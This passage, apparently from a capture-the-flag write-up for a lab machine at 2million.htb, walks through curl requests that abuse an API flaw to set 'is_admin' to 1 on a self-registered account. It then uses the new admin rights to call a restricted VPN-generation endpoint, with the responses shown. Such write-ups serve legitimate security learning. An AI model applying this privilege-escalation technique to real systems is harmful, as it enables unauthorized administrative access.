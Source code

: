 Since it says it can only be 0 or 1, we deduce that 1 would be equivalent to `true` and 0 to `false`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": 1}' | jq

{
  "id": 13,
  "username": "delo",
  "is_admin": 1
}
```

We don’t get a conclusive response, so let’s check if we are now admins by making another request to `/api/v1/admin/auth`.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": true
}
```

The API responds that we are administrators. This might allow us to access other API routes that were previously restricted, such as `/api/v1/admin/vpn/generate`.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

We again receive the invalid content type error, so once more, let's pass the data in JSON format.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{}' | jq

{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

Let’s provide any username, for example, the one we used to register.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo"}'

client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
```